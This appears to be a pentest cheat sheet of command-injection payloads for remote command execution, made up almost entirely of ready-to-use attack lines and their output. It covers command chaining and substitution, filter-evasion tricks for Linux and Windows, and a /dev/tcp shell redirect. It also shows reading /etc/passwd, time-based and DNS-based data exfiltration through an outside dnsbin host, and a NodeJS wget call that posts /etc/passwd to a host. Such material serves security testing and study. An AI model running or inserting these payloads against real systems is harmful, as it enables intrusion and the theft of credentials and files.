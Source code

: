 # Remote Commands Execution
Remote Commands execution is a security vulnerability that allows an attacker to execute Commandss from a remote server.


## Exploits
Normal Commands execution, execute the command and voila :p
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

Commands execution by chaining commands
```
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
```

Commands execution inside a command
```
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

Commands execution without space - Linux
```
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

Commands execution without space - Windows
```
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```


Commands execution without spaces, $ or { } - Linux (Bash only)
```
IFS=,;`cat<<<uname,-a`
```

Commands execution with a line return
```
something%0Acat%20/etc/passwd
```

## Time based data exfiltration
Extracting data : char by char
```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real	0m5.007s
user	0m0.000s
sys	0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real	0m0.002s
user	0m0.000s
sys	0m0.000s
```


## DNS based data exfiltration
Based on the tool from https://github.com/HoLyVieR/dnsbin also hosted at dnsbin.zhack.ca
```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "http://$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

## Environment based
NodeJS Commands execution
```
require('child_process').exec('wget --post-data+"x=$(cat /etc/passwd)"+HOST')
```

## Thanks to
* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
